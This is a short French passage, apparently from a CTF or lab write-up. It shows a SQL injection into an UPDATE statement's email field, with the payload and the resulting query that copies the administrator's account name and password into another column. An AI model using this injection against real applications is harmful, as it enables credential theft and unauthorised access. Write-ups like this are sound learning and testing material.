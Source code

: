 ![maria](mariadb.png)

Compte tenu du code source, nous allons essayer d'extraire le nom d'utilisateur et le mot de passe de l'administrateur. Cette requète peut se traduire sous la forme:

```sql
SELECT CONCAT(account, ' : ', pass) FROM accounts WHERE level > 1 LIMIT 1;
```

Nous allons donc placer cette requète comme sous requète de notre injection:

Nous injectons maintenant `INJECTION', question = (SELECT CONCAT(account, ' : ', pass) FROM accounts WHERE level > 1 LIMIT 1), vipdate='1` ce qui donne la requète suivante:

```sql
UPDATE accounts SET email = 'INJECTION', question = (SELECT CONCAT(account, ' : ', pass) FROM accounts WHERE level > 1 LIMIT 1), vipdate='1' WHERE account=45;
```

![exploit](exploit.png)
